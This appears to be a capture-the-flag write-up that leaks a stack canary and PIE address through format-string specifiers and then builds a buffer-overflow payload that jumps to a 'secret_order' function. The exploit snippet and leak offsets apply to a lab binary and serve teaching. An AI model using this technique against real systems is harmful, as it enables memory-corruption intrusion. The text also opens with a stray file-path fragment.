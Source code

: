 since top of the stack is the secret message, and %6$p is the start of rsp

```python
>>> 88//8 + 6
17
```

we can confirm that %17$p is the main address

### Key Findings

- The secret message is found at `%6$s`.
- The canary value is at `%13$p`.
- A PIE address is at `%17$p`.

### finding padding till canary

```python
Stack[-0x10] canary
Stack[-0x35] buffer
```

using ghidra it will show the offsets of buffer and canary
we can find the distance between

```python
>>> 0x35 - 0x10
37
>>> hex(37)
'0x25'
```

To find the padding from padding + canary, we need to understand the stack arrangment

```
+-----------------+
|                 |
| local variables |
|                 |
+-----------------+
|  stack canary   |
+-----------------+
|    saved RBP    |
+-----------------+
| return address  |
+-----------------+
```

so after the canary it will be the saved RBP
so the padding will be 8 characters

## exploit

The final exploit will look like this

```python
padding = b'a'*37
payload = padding + canary + b'b'*8 + elf.symbols.secret_order
```
